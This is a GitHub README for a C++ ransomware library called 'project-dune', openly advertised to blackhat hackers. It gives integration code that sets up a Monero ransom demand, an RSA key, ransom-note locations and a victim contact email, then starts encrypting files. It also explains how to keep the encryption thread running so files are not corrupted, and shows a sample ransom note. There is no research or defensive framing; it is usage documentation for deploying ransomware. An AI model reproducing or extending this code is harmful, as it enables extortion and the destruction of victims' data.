 # project-dune
An advanced customizable ransomware solution for Blackhat hackers.

## Usage

Example integration
```cpp
#include <iostream>
#include <vector>
#include <string>
#include <chrono>
#include "inc/dune.hpp"

int main(int argc, char *argv[])
{
    std::vector<std::string> notes;
    notes.push_back("./ransom.txt");
    notes.push_back("/ransom.txt");
    std::string public_key = "-----BEGIN PUBLIC KEY-----\n"
                             "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3LhafKJnVq/xa/1d40hcETsyG\n"
                             "CLSxlhXfJWERLPY14Di6EyKZj+e7+IpZF489pxnDEode2UaN/Mq0/hCy8epOrfx1\n"
                             "0BKGlxY72fPDt9MvThCs6DokeK4cIzcMEKQv4RNBF8q3winAM1SGnxLu7RWx2npF\n"
                             "ND8Xa8c7d8il4AjK5QIDAQAB\n"
                             "-----END PUBLIC KEY-----\n";
    std::vector<std::string> exempt_files = std::vector<std::string>();
    exempt_files.push_back("0ef71b11630f2ffb4e796e7923300d67a763eaca");
    exempt_files.push_back("c9831e93135c07e60e86d0cea63a878cb512764f");

    dune::Dune dune = dune::Dune(2.0, "XMR", "your address here", "You have been pwned!", notes, "tech@anon.gov", public_key, exempt_files);
    dune::Acknowledgement ack;
    ack.are_you_sure_you_want_to_do_this = true;
    ack.i_accept_the_risks_and_consequences_of_my_actions = true;
    ack.i_understand_it_is_illegel = true;
    dune.attack(ack, "./");
    printf("All done\n");
    return 0;
}
```

The Dune ransomware class contains two important methods. The attack method and the constructor. The constructor accepts several required arguments to tell the malware how to behave (Ex: what crypto address to demand). The most important parameter is the PEM formatted RSA key. The RSA public key must be valid, or behavior is not guaranteed. The class requires a string vector containing absolute or relative file paths to be supplied to create many ransom notes. More, the better. The class also takes an argument specifying the amount and type of cryptocurrency to be ransomed. It also accepts a message to include in the ransom file and can be left as an empty string. Also, there is an email parameter to have so that the victim can contact the ransomer.

## Notes
The attack method creates a thread that will encrypt all files in the background. Since this could take a while, you will need to create a while loop to wait until verify_done returns true. Remember to sleep between calls to it, or it will slow the encryption. You must do this to keep the thread alive, or encryption will likely result in corrupt files and no profit.

Example:
```cpp
dune.attack(ack, true);

while (!dune.verify_done()) {
    std::this_thread::sleep_for(std::chrono::milliseconds(5000));
}
```

This is an example Dune ransonware note file:
```
Message from hacker: You have been pwned!

You must pay in this type of cryptocurrency XMR.
The ransom amount is 2.000000 XMR.
The address to pay is: 

your address here

This address is specific to this attack. If you have multiple attacks paying another address will not help you get your files back. The full amount or more must be paid to the XMR address specified.
DO NOT MODIFY THIS OR ALL YOUR FILES WILL BE LOST (It is the RSA encrypted key for decryption)

GJXy2U6fJlThFBb9a1WwQFGfNzAlkpAmYTyrd+zddNJyxwhJrrwTStvtOM40OMtvLNiGWhIFAU7kFrQnmxzuntFse1+hzqmxz3xgUI+l5KiVgXiNvaLDmvGdvjCGg0ADjQcD/mkCW0FIIdtXXjNr+2seACPCFjYEajryMuPXekE=

Send this whole file to this email address AFTER you have paid the ransom: your-email@dnmx.org

If you contact this email before the ransom is paid in full it will likely be increased.


This is your victim id: d89ecb59-173c-d8de-5714-3cfa.
```

Enjor the easy integration.
